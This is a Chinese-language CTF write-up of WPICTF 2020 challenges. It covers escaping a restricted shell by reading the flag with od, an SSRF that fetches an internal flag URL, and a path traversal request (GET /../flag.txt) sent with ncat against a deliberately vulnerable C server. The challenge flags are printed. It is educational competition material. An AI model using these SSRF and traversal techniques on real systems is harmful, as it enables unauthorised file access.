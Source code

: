 ```yaml
---
title: wpictf2020-wp
date: 2020-04-18 17:07:25
updated: 2020-04-18 17:07:25
tags:
 - ctf
 - wp
categories:
 - 日常刷题
---
```


# linux

## Suckmore Shell 2.0

题目给出了ssh服务器连接上后export不能用了

Cat、tac、less等之类都能用后面发现od可以使用. [参考链接](https://www.cnblogs.com/ur10ser/p/7624367.html)

```bash
sx@kali blog % ssh smsh@smsh.wpictf.xyz
Password: 
> ls
flag
      
> 
> od -c flag
0000000   e   c   h   o       "   W   P   I   {   S   U   c   k   m   o
0000020   r   e   S   o   f   t   w   a   r   e   N   3   3   d   z   2
0000040   G   3   T   i   t   T   o   g   e   T   H   E   R   }   "  \n
0000060
> 
```





# web

## 👉😎👉

这个题目给了一堆emoji

![](/pic/147.png)

还给了一个网站

![](/pic/148.png)

在attach中有存在ssrf

![](/pic/149.png)

直接给出了flag， url填入http://storage.zoop/flag.txt即可

```
WPI{tH4nKs_z00m3r_jh0n50n}
```



## dorsia2

题目描述如下

```
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The second card.

http://dorsia2.wpictf.xyz:31337/index.html or 31338 or 31339

Firefox doesnt like the page... try chromium.


Hint: flag in ~/flag.txt
```

在视频中第二张卡片的内容为

```c
void main() {
char a[69]={0};
scanf("GET /%s", &a);
printf("HTTP 200\r\n\r\n");
fflush(stdout); 
execlp("cat",a,a,0);}
```

使用chrome浏览器访问，提示文本为发送。

使用nc/burp suite获取flag.txt

```bash
ncat dorsia2.wpictf.xyz 31337 
GET /../flag.txt
HTTP 200

WPI{1_H4VE_2_return_SOME_VIDE0TAP3S}
```

```http
GET /../flag.txt HTTP/1.1
Host: dorsia2.wpictf.xyz:31337
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

